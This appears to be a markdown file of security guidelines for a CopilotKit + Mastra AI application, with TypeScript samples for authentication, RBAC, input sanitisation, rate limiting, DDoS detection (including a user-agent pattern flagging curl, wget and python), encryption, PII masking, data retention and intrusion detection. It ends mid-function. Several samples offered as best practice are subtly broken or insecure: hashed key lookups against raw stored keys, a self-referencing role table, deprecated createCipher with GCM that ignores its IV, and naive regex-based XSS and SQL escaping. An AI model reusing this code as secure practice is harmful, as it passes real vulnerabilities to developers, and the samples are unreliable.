

# Security Guidelines & Best Practices

This document outlines comprehensive security guidelines, threat mitigation strategies, and best practices for the CopilotKit + Mastra AI application.

## Security Architecture



## Authentication & Authorization

### 1. API Authentication

**API Key Management:**
```typescript
// src/lib/auth.ts
import { NextRequest } from 'next/server';
import { createHash } from 'crypto';

interface APIKeyConfig {
  key: string;
  permissions: string[];
  rateLimit: number;
  expiresAt?: Date;
}

export class APIKeyManager {
  private keys: Map<string, APIKeyConfig> = new Map();
  
  constructor() {
    this.loadAPIKeys();
  }
  
  private loadAPIKeys() {
    // Load API keys from secure storage
    const keys = process.env.API_KEYS?.split(',') || [];
    keys.forEach(keyConfig => {
      const [key, permissions, rateLimit] = keyConfig.split(':');
      this.keys.set(key, {
        key,
        permissions: permissions.split('|'),
        rateLimit: parseInt(rateLimit),
      });
    });
  }
  
  validateAPIKey(key: string): APIKeyConfig | null {
    const hashedKey = createHash('sha256').update(key).digest('hex');
    return this.keys.get(hashedKey) || null;
  }
  
  hasPermission(key: string, permission: string): boolean {
    const config = this.validateAPIKey(key);
    return config?.permissions.includes(permission) || false;
  }
}

export async function authenticateRequest(request: NextRequest): Promise<APIKeyConfig | null> {
  const apiKey = request.headers.get('x-api-key') || 
                 request.headers.get('authorization')?.replace('Bearer ', '');
  
  if (!apiKey) {
    return null;
  }
  
  const keyManager = new APIKeyManager();
  return keyManager.validateAPIKey(apiKey);
}
```

**JWT Token Validation:**
```typescript
// src/lib/jwt.ts
import jwt from 'jsonwebtoken';

interface JWTPayload {
  userId: string;
  email: string;
  roles: string[];
  permissions: string[];
  iat: number;
  exp: number;
}

export function verifyJWT(token: string): JWTPayload | null {
  try {
    const secret = process.env.JWT_SECRET;
    if (!secret) {
      throw new Error('JWT_SECRET not configured');
    }
    
    const payload = jwt.verify(token, secret) as JWTPayload;
    
    // Check token expiration
    if (payload.exp < Date.now() / 1000) {
      return null;
    }
    
    return payload;
  } catch (error) {
    console.error('JWT verification failed:', error);
    return null;
  }
}

export function generateJWT(payload: Omit<JWTPayload, 'iat' | 'exp'>): string {
  const secret = process.env.JWT_SECRET;
  if (!secret) {
    throw new Error('JWT_SECRET not configured');
  }
  
  return jwt.sign(
    {
      ...payload,
      iat: Math.floor(Date.now() / 1000),
      exp: Math.floor(Date.now() / 1000) + (24 * 60 * 60), // 24 hours
    },
    secret
  );
}
```

### 2. Role-Based Access Control (RBAC)

**Permission System:**
```typescript
// src/lib/permissions.ts
export enum Permission {
  // Agent permissions
  AGENT_READ = 'agent:read',
  AGENT_EXECUTE = 'agent:execute',
  AGENT_CONFIGURE = 'agent:configure',
  
  // Workflow permissions
  WORKFLOW_READ = 'workflow:read',
  WORKFLOW_EXECUTE = 'workflow:execute',
  WORKFLOW_CREATE = 'workflow:create',
  
  // Memory permissions
  MEMORY_READ = 'memory:read',
  MEMORY_WRITE = 'memory:write',
  MEMORY_DELETE = 'memory:delete',
  
  // Admin permissions
  ADMIN_USERS = 'admin:users',
  ADMIN_SYSTEM = 'admin:system',
  ADMIN_LOGS = 'admin:logs',
}

export enum Role {
  USER = 'user',
  DEVELOPER = 'developer',
  ADMIN = 'admin',
  SYSTEM = 'system',
}

const ROLE_PERMISSIONS: Record<Role, Permission[]> = {
  [Role.USER]: [
    Permission.AGENT_READ,
    Permission.AGENT_EXECUTE,
    Permission.WORKFLOW_READ,
    Permission.WORKFLOW_EXECUTE,
    Permission.MEMORY_READ,
  ],
  [Role.DEVELOPER]: [
    ...ROLE_PERMISSIONS[Role.USER],
    Permission.AGENT_CONFIGURE,
    Permission.WORKFLOW_CREATE,
    Permission.MEMORY_WRITE,
  ],
  [Role.ADMIN]: [
    ...ROLE_PERMISSIONS[Role.DEVELOPER],
    Permission.MEMORY_DELETE,
    Permission.ADMIN_USERS,
    Permission.ADMIN_SYSTEM,
    Permission.ADMIN_LOGS,
  ],
  [Role.SYSTEM]: Object.values(Permission),
};

export function hasPermission(userRoles: Role[], requiredPermission: Permission): boolean {
  return userRoles.some(role => 
    ROLE_PERMISSIONS[role]?.includes(requiredPermission)
  );
}

export function checkPermissions(userRoles: Role[], requiredPermissions: Permission[]): boolean {
  return requiredPermissions.every(permission => 
    hasPermission(userRoles, permission)
  );
}
```

**Authorization Middleware:**
```typescript
// src/middleware/auth.ts
import { NextRequest, NextResponse } from 'next/server';
import { verifyJWT } from '@/lib/jwt';
import { hasPermission, Permission, Role } from '@/lib/permissions';

export function withAuth(requiredPermissions: Permission[] = []) {
  return async function authMiddleware(
    request: NextRequest,
    handler: (req: NextRequest, user: any) => Promise<NextResponse>
  ) {
    // Extract token from Authorization header
    const authHeader = request.headers.get('authorization');
    const token = authHeader?.replace('Bearer ', '');
    
    if (!token) {
      return NextResponse.json(
        { error: 'Authentication required' },
        { status: 401 }
      );
    }
    
    // Verify JWT token
    const payload = verifyJWT(token);
    if (!payload) {
      return NextResponse.json(
        { error: 'Invalid or expired token' },
        { status: 401 }
      );
    }
    
    // Check permissions
    if (requiredPermissions.length > 0) {
      const userRoles = payload.roles as Role[];
      const hasRequiredPermissions = requiredPermissions.every(permission =>
        hasPermission(userRoles, permission)
      );
      
      if (!hasRequiredPermissions) {
        return NextResponse.json(
          { error: 'Insufficient permissions' },
          { status: 403 }
        );
      }
    }
    
    // Add user context to request
    const userContext = {
      userId: payload.userId,
      email: payload.email,
      roles: payload.roles,
      permissions: payload.permissions,
    };
    
    return handler(request, userContext);
  };
}
```

## Input Validation & Sanitization

### 1. Request Validation

**Zod Schema Validation:**
```typescript
// src/lib/validation.ts
import { z } from 'zod';
import { NextRequest } from 'next/server';

// Common validation schemas
export const emailSchema = z.string().email().max(255);
export const passwordSchema = z.string().min(8).max(128)
  .regex(/^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@$!%*?&])[A-Za-z\d@$!%*?&]/, 
    'Password must contain uppercase, lowercase, number, and special character');

export const agentQuerySchema = z.object({
  query: z.string().min(1).max(10000),
  agentId: z.string().uuid(),
  threadId: z.string().uuid().optional(),
  context: z.record(z.any()).optional(),
});

export const workflowExecutionSchema = z.object({
  workflowId: z.string().min(1).max(100),
  parameters: z.record(z.any()),
  timeout: z.number().min(1000).max(300000).optional(), // 1s to 5min
});

// Validation middleware
export function validateRequest<T>(schema: z.ZodSchema<T>) {
  return async (request: NextRequest): Promise<T> => {
    try {
      const body = await request.json();
      return schema.parse(body);
    } catch (error) {
      if (error instanceof z.ZodError) {
        throw new ValidationError('Invalid request data', error.errors);
      }
      throw error;
    }
  };
}

export class ValidationError extends Error {
  constructor(message: string, public errors: z.ZodIssue[]) {
    super(message);
    this.name = 'ValidationError';
  }
}
```

### 2. Content Sanitization

**HTML/XSS Prevention:**
```typescript
// src/lib/sanitization.ts
import DOMPurify from 'isomorphic-dompurify';

export function sanitizeHTML(html: string): string {
  return DOMPurify.sanitize(html, {
    ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'ul', 'ol', 'li', 'a'],
    ALLOWED_ATTR: ['href', 'target'],
    ALLOW_DATA_ATTR: false,
  });
}

export function sanitizeUserInput(input: string): string {
  return input
    .replace(/[<>]/g, '') // Remove angle brackets
    .replace(/javascript:/gi, '') // Remove javascript: protocol
    .replace(/on\w+=/gi, '') // Remove event handlers
    .trim()
    .slice(0, 10000); // Limit length
}

export function sanitizeFilename(filename: string): string {
  return filename
    .replace(/[^a-zA-Z0-9.-]/g, '_') // Replace special chars with underscore
    .replace(/\.{2,}/g, '.') // Replace multiple dots with single dot
    .slice(0, 255); // Limit length
}

// SQL injection prevention (when using raw queries)
export function escapeSQL(value: string): string {
  return value.replace(/'/g, "''").replace(/;/g, '');
}
```

## Rate Limiting & DDoS Protection

### 1. API Rate Limiting

**Upstash-based Rate Limiting:**
```typescript
// src/lib/rate-limiting.ts
import { Ratelimit } from '@upstash/ratelimit';
import { Redis } from '@upstash/redis';
import { NextRequest } from 'next/server';

const redis = Redis.fromEnv();

// Different rate limits for different endpoints
export const rateLimits = {
  // General API endpoints
  api: new Ratelimit({
    redis,
    limiter: Ratelimit.slidingWindow(100, '1 h'), // 100 requests per hour
    analytics: true,
  }),
  
  // Agent execution endpoints (more restrictive)
  agent: new Ratelimit({
    redis,
    limiter: Ratelimit.slidingWindow(20, '1 h'), // 20 executions per hour
    analytics: true,
  }),
  
  // Authentication endpoints (very restrictive)
  auth: new Ratelimit({
    redis,
    limiter: Ratelimit.slidingWindow(5, '15 m'), // 5 attempts per 15 minutes
    analytics: true,
  }),
  
  // Search endpoints
  search: new Ratelimit({
    redis,
    limiter: Ratelimit.slidingWindow(50, '1 h'), // 50 searches per hour
    analytics: true,
  }),
};

export async function checkRateLimit(
  request: NextRequest,
  limitType: keyof typeof rateLimits = 'api'
): Promise<{ success: boolean; limit: number; remaining: number; reset: Date }> {
  const identifier = getClientIdentifier(request);
  const ratelimit = rateLimits[limitType];
  
  const { success, limit, remaining, reset } = await ratelimit.limit(identifier);
  
  return { success, limit, remaining, reset };
}

function getClientIdentifier(request: NextRequest): string {
  // Try to get user ID from JWT token
  const authHeader = request.headers.get('authorization');
  if (authHeader) {
    try {
      const token = authHeader.replace('Bearer ', '');
      const payload = verifyJWT(token);
      if (payload) {
        return `user:${payload.userId}`;
      }
    } catch {
      // Fall through to IP-based identification
    }
  }
  
  // Fall back to IP address
  const forwarded = request.headers.get('x-forwarded-for');
  const ip = forwarded ? forwarded.split(',')[0] : 
             request.headers.get('x-real-ip') || 
             'unknown';
  
  return `ip:${ip}`;
}
```

**Rate Limiting Middleware:**
```typescript
// src/middleware/rate-limit.ts
import { NextRequest, NextResponse } from 'next/server';
import { checkRateLimit } from '@/lib/rate-limiting';

export function withRateLimit(limitType: keyof typeof rateLimits = 'api') {
  return async function rateLimitMiddleware(
    request: NextRequest,
    handler: (req: NextRequest) => Promise<NextResponse>
  ) {
    const { success, limit, remaining, reset } = await checkRateLimit(request, limitType);
    
    if (!success) {
      return NextResponse.json(
        {
          error: 'Rate limit exceeded',
          limit,
          remaining: 0,
          resetTime: reset.toISOString(),
        },
        {
          status: 429,
          headers: {
            'X-RateLimit-Limit': limit.toString(),
            'X-RateLimit-Remaining': '0',
            'X-RateLimit-Reset': reset.getTime().toString(),
            'Retry-After': Math.ceil((reset.getTime() - Date.now()) / 1000).toString(),
          },
        }
      );
    }
    
    const response = await handler(request);
    
    // Add rate limit headers to successful responses
    response.headers.set('X-RateLimit-Limit', limit.toString());
    response.headers.set('X-RateLimit-Remaining', remaining.toString());
    response.headers.set('X-RateLimit-Reset', reset.getTime().toString());
    
    return response;
  };
}
```

### 2. DDoS Protection

**Request Pattern Analysis:**
```typescript
// src/lib/ddos-protection.ts
import { Redis } from '@upstash/redis';

const redis = Redis.fromEnv();

interface RequestPattern {
  count: number;
  firstSeen: number;
  lastSeen: number;
  userAgents: Set<string>;
  paths: Set<string>;
}

export class DDoSProtection {
  private readonly suspiciousThreshold = 100; // requests per minute
  private readonly blockDuration = 15 * 60 * 1000; // 15 minutes
  
  async analyzeRequest(request: NextRequest): Promise<{ blocked: boolean; reason?: string }> {
    const ip = this.getClientIP(request);
    const userAgent = request.headers.get('user-agent') || 'unknown';
    const path = new URL(request.url).pathname;
    
    // Get current pattern for this IP
    const patternKey = `ddos:pattern:${ip}`;
    const patternData = await redis.get(patternKey) as RequestPattern | null;
    
    const now = Date.now();
    const oneMinuteAgo = now - 60 * 1000;
    
    let pattern: RequestPattern;
    if (!patternData || patternData.firstSeen < oneMinuteAgo) {
      // Start new pattern tracking
      pattern = {
        count: 1,
        firstSeen: now,
        lastSeen: now,
        userAgents: new Set([userAgent]),
        paths: new Set([path]),
      };
    } else {
      // Update existing pattern
      pattern = {
        ...patternData,
        count: patternData.count + 1,
        lastSeen: now,
        userAgents: new Set([...patternData.userAgents, userAgent]),
        paths: new Set([...patternData.paths, path]),
      };
    }
    
    // Check for suspicious patterns
    const suspiciousReasons = this.detectSuspiciousPatterns(pattern);
    
    if (suspiciousReasons.length > 0) {
      // Block the IP
      await this.blockIP(ip, suspiciousReasons);
      return { blocked: true, reason: suspiciousReasons.join(', ') };
    }
    
    // Update pattern in Redis
    await redis.setex(patternKey, 300, JSON.stringify(pattern)); // 5 minutes TTL
    
    return { blocked: false };
  }
  
  private detectSuspiciousPatterns(pattern: RequestPattern): string[] {
    const reasons: string[] = [];
    
    // High request rate
    if (pattern.count > this.suspiciousThreshold) {
      reasons.push('High request rate');
    }
    
    // Single user agent with high volume
    if (pattern.userAgents.size === 1 && pattern.count > 50) {
      reasons.push('Single user agent high volume');
    }
    
    // Repetitive path access
    if (pattern.paths.size === 1 && pattern.count > 30) {
      reasons.push('Repetitive path access');
    }
    
    // Bot-like user agent patterns
    const userAgent = Array.from(pattern.userAgents)[0];
    if (this.isSuspiciousUserAgent(userAgent)) {
      reasons.push('Suspicious user agent');
    }
    
    return reasons;
  }
  
  private isSuspiciousUserAgent(userAgent: string): boolean {
    const suspiciousPatterns = [
      /bot/i,
      /crawler/i,
      /spider/i,
      /scraper/i,
      /python/i,
      /curl/i,
      /wget/i,
    ];
    
    return suspiciousPatterns.some(pattern => pattern.test(userAgent));
  }
  
  private async blockIP(ip: string, reasons: string[]): Promise<void> {
    const blockKey = `ddos:blocked:${ip}`;
    const blockData = {
      blockedAt: Date.now(),
      reasons,
      expiresAt: Date.now() + this.blockDuration,
    };
    
    await redis.setex(blockKey, this.blockDuration / 1000, JSON.stringify(blockData));
    
    // Log the block
    console.warn('IP blocked for DDoS protection', {
      ip,
      reasons,
      duration: this.blockDuration,
    });
  }
  
  async isBlocked(ip: string): Promise<boolean> {
    const blockKey = `ddos:blocked:${ip}`;
    const blockData = await redis.get(blockKey);
    return blockData !== null;
  }
  
  private getClientIP(request: NextRequest): string {
    const forwarded = request.headers.get('x-forwarded-for');
    return forwarded ? forwarded.split(',')[0].trim() : 
           request.headers.get('x-real-ip') || 
           'unknown';
  }
}
```

## Data Protection & Privacy

### 1. Data Encryption

**Encryption at Rest:**
```typescript
// src/lib/encryption.ts
import crypto from 'crypto';

export class DataEncryption {
  private readonly algorithm = 'aes-256-gcm';
  private readonly keyLength = 32;
  private readonly ivLength = 16;
  private readonly tagLength = 16;
  
  constructor(private readonly encryptionKey: string) {
    if (!encryptionKey || encryptionKey.length < 32) {
      throw new Error('Encryption key must be at least 32 characters');
    }
  }
  
  encrypt(data: string): { encrypted: string; iv: string; tag: string } {
    const iv = crypto.randomBytes(this.ivLength);
    const cipher = crypto.createCipher(this.algorithm, this.encryptionKey);
    cipher.setAAD(Buffer.from('additional-data'));
    
    let encrypted = cipher.update(data, 'utf8', 'hex');
    encrypted += cipher.final('hex');
    
    const tag = cipher.getAuthTag();
    
    return {
      encrypted,
      iv: iv.toString('hex'),
      tag: tag.toString('hex'),
    };
  }
  
  decrypt(encrypted: string, iv: string, tag: string): string {
    const decipher = crypto.createDecipher(this.algorithm, this.encryptionKey);
    decipher.setAAD(Buffer.from('additional-data'));
    decipher.setAuthTag(Buffer.from(tag, 'hex'));
    
    let decrypted = decipher.update(encrypted, 'hex', 'utf8');
    decrypted += decipher.final('utf8');
    
    return decrypted;
  }
  
  hashPassword(password: string, salt?: string): { hash: string; salt: string } {
    const actualSalt = salt || crypto.randomBytes(16).toString('hex');
    const hash = crypto.pbkdf2Sync(password, actualSalt, 10000, 64, 'sha512').toString('hex');
    
    return { hash, salt: actualSalt };
  }
  
  verifyPassword(password: string, hash: string, salt: string): boolean {
    const { hash: computedHash } = this.hashPassword(password, salt);
    return crypto.timingSafeEqual(Buffer.from(hash), Buffer.from(computedHash));
  }
}

// Initialize with environment variable
export const dataEncryption = new DataEncryption(
  process.env.ENCRYPTION_KEY || crypto.randomBytes(32).toString('hex')
);
```

**PII Data Handling:**
```typescript
// src/lib/pii-protection.ts
import { dataEncryption } from './encryption';

interface PIIField {
  value: string;
  encrypted: boolean;
  classification: 'public' | 'internal' | 'confidential' | 'restricted';
}

export class PIIProtection {
  private readonly piiPatterns = {
    email: /\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b/g,
    phone: /\b\d{3}[-.]?\d{3}[-.]?\d{4}\b/g,
    ssn: /\b\d{3}-\d{2}-\d{4}\b/g,
    creditCard: /\b\d{4}[-\s]?\d{4}[-\s]?\d{4}[-\s]?\d{4}\b/g,
    ipAddress: /\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b/g,
  };
  
  detectPII(text: string): { type: string; matches: string[] }[] {
    const detected: { type: string; matches: string[] }[] = [];
    
    Object.entries(this.piiPatterns).forEach(([type, pattern]) => {
      const matches = text.match(pattern);
      if (matches) {
        detected.push({ type, matches });
      }
    });
    
    return detected;
  }
  
  maskPII(text: string): string {
    let maskedText = text;
    
    // Mask email addresses
    maskedText = maskedText.replace(this.piiPatterns.email, (match) => {
      const [local, domain] = match.split('@');
      return `${local.charAt(0)}***@${domain}`;
    });
    
    // Mask phone numbers
    maskedText = maskedText.replace(this.piiPatterns.phone, '***-***-****');
    
    // Mask SSN
    maskedText = maskedText.replace(this.piiPatterns.ssn, '***-**-****');
    
    // Mask credit cards
    maskedText = maskedText.replace(this.piiPatterns.creditCard, '**** **** **** ****');
    
    return maskedText;
  }
  
  encryptPII(data: Record<string, any>): Record<string, PIIField> {
    const encrypted: Record<string, PIIField> = {};
    
    Object.entries(data).forEach(([key, value]) => {
      const stringValue = String(value);
      const hasPII = this.detectPII(stringValue).length > 0;
      
      if (hasPII) {
        const { encrypted: encryptedValue, iv, tag } = dataEncryption.encrypt(stringValue);
        encrypted[key] = {
          value: `${encryptedValue}:${iv}:${tag}`,
          encrypted: true,
          classification: 'confidential',
        };
      } else {
        encrypted[key] = {
          value: stringValue,
          encrypted: false,
          classification: 'public',
        };
      }
    });
    
    return encrypted;
  }
  
  decryptPII(data: Record<string, PIIField>): Record<string, any> {
    const decrypted: Record<string, any> = {};
    
    Object.entries(data).forEach(([key, field]) => {
      if (field.encrypted) {
        const [encrypted, iv, tag] = field.value.split(':');
        decrypted[key] = dataEncryption.decrypt(encrypted, iv, tag);
      } else {
        decrypted[key] = field.value;
      }
    });
    
    return decrypted;
  }
}

export const piiProtection = new PIIProtection();
```

### 2. Data Retention & Deletion

**Data Lifecycle Management:**
```typescript
// src/lib/data-retention.ts
import { Redis } from '@upstash/redis';
import { mastraMemory } from '@/mastra/memory/upstashMemory';

interface RetentionPolicy {
  dataType: string;
  retentionDays: number;
  autoDelete: boolean;
  archiveBeforeDelete: boolean;
}

export class DataRetentionManager {
  private readonly redis = Redis.fromEnv();
  
  private readonly policies: RetentionPolicy[] = [
    {
      dataType: 'user_sessions',
      retentionDays: 30,
      autoDelete: true,
      archiveBeforeDelete: false,
    },
    {
      dataType: 'agent_conversations',
      retentionDays: 90,
      autoDelete: false,
      archiveBeforeDelete: true,
    },
    {
      dataType: 'system_logs',
      retentionDays: 365,
      autoDelete: true,
      archiveBeforeDelete: true,
    },
    {
      dataType: 'user_data',
      retentionDays: 2555, // 7 years for compliance
      autoDelete: false,
      archiveBeforeDelete: true,
    },
  ];
  
  async scheduleDataCleanup(): Promise<void> {
    for (const policy of this.policies) {
      if (policy.autoDelete) {
        await this.cleanupExpiredData(policy);
      }
    }
  }
  
  private async cleanupExpiredData(policy: RetentionPolicy): Promise<void> {
    const cutoffDate = new Date();
    cutoffDate.setDate(cutoffDate.getDate() - policy.retentionDays);
    
    console.log(`Cleaning up ${policy.dataType} older than ${cutoffDate.toISOString()}`);
    
    switch (policy.dataType) {
      case 'user_sessions':
        await this.cleanupUserSessions(cutoffDate);
        break;
      case 'agent_conversations':
        await this.cleanupAgentConversations(cutoffDate, policy.archiveBeforeDelete);
        break;
      case 'system_logs':
        await this.cleanupSystemLogs(cutoffDate, policy.archiveBeforeDelete);
        break;
      default:
        console.warn(`Unknown data type for cleanup: ${policy.dataType}`);
    }
  }
  
  private async cleanupUserSessions(cutoffDate: Date): Promise<void> {
    const pattern = 'session:*';
    const keys = await this.redis.keys(pattern);
    
    for (const key of keys) {
      const session = await this.redis.get(key);
      if (session && typeof session === 'object' && 'createdAt' in session) {
        const createdAt = new Date(session.createdAt as string);
        if (createdAt < cutoffDate) {
          await this.redis.del(key);
        }
      }
    }
  }
  
  private async cleanupAgentConversations(cutoffDate: Date, archive: boolean): Promise<void> {
    // Get all memory threads older than cutoff date
    const expiredThreads = await this.getExpiredMemoryThreads(cutoffDate);
    
    for (const thread of expiredThreads) {
      if (archive) {
        await this.archiveMemoryThread(thread.id);
      }
      
      // Delete from active memory
      await this.deleteMemoryThread(thread.id);
    }
  }
  
  private async getExpiredMemoryThreads(cutoffDate: Date): Promise<any[]> {
    // Implementation would depend on your memory storage structure
    // This is a placeholder for the actual implementation
    return [];
  }
  
  private async archiveMemoryThread(threadId: string): Promise<void> {
    // Archive thread data to long-term storage
    const messages = await mastraMemory.getMemoryThreadMessages(threadId);
    const archiveData = {
      threadId,
      messages,
      archivedAt: new Date().toISOString(),
    };
    
    // Store in archive (could be S3, cold storage, etc.)
    await this.storeInArchive(`thread_${threadId}`, archiveData);
  }
  
  private async deleteMemoryThread(threadId: string): Promise<void> {
    // Delete thread and associated data
    await mastraMemory.deleteMemoryThread(threadId);
  }
  
  private async storeInArchive(key: string, data: any): Promise<void> {
    // Implementation for archiving data
    // Could use AWS S3, Google Cloud Storage, etc.
    console.log(`Archiving data with key: ${key}`);
  }
  
  async handleDataDeletionRequest(userId: string): Promise<void> {
    console.log(`Processing data deletion request for user: ${userId}`);
    
    // Delete user sessions
    const sessionKeys = await this.redis.keys(`session:${userId}:*`);
    if (sessionKeys.length > 0) {
      await this.redis.del(...sessionKeys);
    }
    
    // Delete user memory threads
    const userThreads = await mastraMemory.getMemoryThreadsByUserId(userId);
    for (const thread of userThreads) {
      await this.deleteMemoryThread(thread.id);
    }
    
    // Delete user data from other systems
    await this.deleteUserFromExternalSystems(userId);
    
    console.log(`Data deletion completed for user: ${userId}`);
  }
  
  private async deleteUserFromExternalSystems(userId: string): Promise<void> {
    // Delete user data from external systems
    // This would include any third-party services that store user data
  }
}

export const dataRetentionManager = new DataRetentionManager();
```

## Security Monitoring & Incident Response

### 1. Security Event Logging

**Security Logger:**
```typescript
// src/lib/security-logger.ts
import { createLogger, format, transports } from 'winston';

export enum SecurityEventType {
  AUTHENTICATION_SUCCESS = 'auth_success',
  AUTHENTICATION_FAILURE = 'auth_failure',
  AUTHORIZATION_FAILURE = 'authz_failure',
  RATE_LIMIT_EXCEEDED = 'rate_limit_exceeded',
  SUSPICIOUS_ACTIVITY = 'suspicious_activity',
  DATA_ACCESS = 'data_access',
  DATA_MODIFICATION = 'data_modification',
  SYSTEM_BREACH_ATTEMPT = 'breach_attempt',
  CONFIGURATION_CHANGE = 'config_change',
}

interface SecurityEvent {
  type: SecurityEventType;
  userId?: string;
  ip: string;
  userAgent: string;
  resource?: string;
  action?: string;
  success: boolean;
  details?: Record<string, any>;
  timestamp: string;
  severity: 'low' | 'medium' | 'high' | 'critical';
}

class SecurityLogger {
  private logger = createLogger({
    level: 'info',
    format: format.combine(
      format.timestamp(),
      format.errors({ stack: true }),
      format.json()
    ),
    transports: [
      new transports.File({ 
        filename: 'security.log',
        level: 'info',
      }),
      new transports.File({ 
        filename: 'security-errors.log',
        level: 'error',
      }),
    ],
  });
  
  logSecurityEvent(event: SecurityEvent): void {
    const logLevel = this.getLogLevel(event.severity);
    
    this.logger.log(logLevel, 'Security Event', {
      ...event,
      category: 'security',
    });
    
    // Send critical events to monitoring system
    if (event.severity === 'critical') {
      this.sendToMonitoring(event);
    }
  }
  
  private getLogLevel(severity: string): string {
    switch (severity) {
      case 'critical':
      case 'high':
        return 'error';
      case 'medium':
        return 'warn';
      default:
        return 'info';
    }
  }
  
  private async sendToMonitoring(event: SecurityEvent): Promise<void> {
    // Send to external monitoring service (e.g., Sentry, DataDog)
    try {
      await fetch(process.env.SECURITY_WEBHOOK_URL!, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
          alert: 'Critical Security Event',
          event,
          timestamp: new Date().toISOString(),
        }),
      });
    } catch (error) {
      console.error('Failed to send security alert:', error);
    }
  }
}

export const securityLogger = new SecurityLogger();

// Helper functions for common security events
export function logAuthenticationAttempt(
  success: boolean,
  userId: string | null,
  ip: string,
  userAgent: string,
  details?: Record<string, any>
): void {
  securityLogger.logSecurityEvent({
    type: success ? SecurityEventType.AUTHENTICATION_SUCCESS : SecurityEventType.AUTHENTICATION_FAILURE,
    userId: userId || undefined,
    ip,
    userAgent,
    success,
    details,
    timestamp: new Date().toISOString(),
    severity: success ? 'low' : 'medium',
  });
}

export function logSuspiciousActivity(
  ip: string,
  userAgent: string,
  activity: string,
  details?: Record<string, any>
): void {
  securityLogger.logSecurityEvent({
    type: SecurityEventType.SUSPICIOUS_ACTIVITY,
    ip,
    userAgent,
    action: activity,
    success: false,
    details,
    timestamp: new Date().toISOString(),
    severity: 'high',
  });
}
```

### 2. Intrusion Detection

**Anomaly Detection:**
```typescript
// src/lib/intrusion-detection.ts
import { Redis } from '@upstash/redis';
import { securityLogger, SecurityEventType } from './security-logger';

interface UserBehaviorPattern {
  userId: string;
  normalHours: number[]; // Hours of day when user is typically active
  normalLocations: string[]; // IP ranges or countries
  averageSessionDuration: number;
  typicalActions: string[];
  lastSeen: string;
}

export class IntrusionDetectionSystem {
  private readonly redis = Redis.fromEnv();
  
  async analyzeUserBehavior(
    userId: string,
    ip: string,
    userAgent: string,
    action: string
  ): Promise<{ anomalous: boolean; reasons: string[] }> {
    const pattern = await this.getUserPattern(userId);
    const anomalies: string[] = [];
    
    // Check time-based anomalies
    const currentHour = new Date().getHours();
    if (pattern && !pattern.normalHours.includes(currentHour)) {
      anomalies.push('Unusual access time');
    }
    
    // Check location-based anomalies
    const location = await this.getLocationFromIP(ip);
    if (pattern && !pattern.normalLocations.includes(location)) {
      anomalies.push('Unusual access location');
    }
    
    // Check action-based anomalies
    if (pattern && !pattern.typicalActions.includes(action)) {
      anomalies.push('Unusual action pattern');
    }
    
    // Check for rapid successive requests
    const recentRequests = await this.getRecentRequests(userId);
    if (recentRequests.length > 10) { // More than 10 requests in last minute
      anomalies.push('Rapid successive requests');
    }
    
    // Update user pattern
    await this.updateUserPattern(userId, ip, action, location);
    
    if (anomalies.length > 0) {
      securityLogger.logSecurityEvent({
        type: SecurityEventType.SUSPICIOUS_ACTIVITY,
        userId,
        ip,
        userAgent,
        action,
        success: false,
        details: { anomalies },
        timestamp: new Date().toISOString(),
        severity: anomalies.length > 2 ? 'high' : 'medium',
      });
    }
    
    return {
      anomalous: anomalies.length > 0,
      reasons: anomalies,
    };
  }
  
  private async getUserPattern(userId: string): Promise<UserBehaviorPattern | null> {
    const pattern = await this.redis.get(`user_pattern:${userId}`);
    return pattern as UserBehaviorPattern | null;
  }
  
  private async updateUserPattern(
    userId: string,
    ip: string,
    action: string,
    location: string
  ): Promise<void> {
    const currentHour = new Date().getHours();
    const pattern = await this.getUserPattern(userId);
    
    if (!pattern) {
      // Create new pattern
      const newPattern: UserBehaviorPattern = {
        userId,
        normalHours: [currentHour],
        normalLocations: [location],
        averageSessionDuration: 0,
        typicalActions: [action],
        lastSeen: new Date().toISOString(),
      };
      
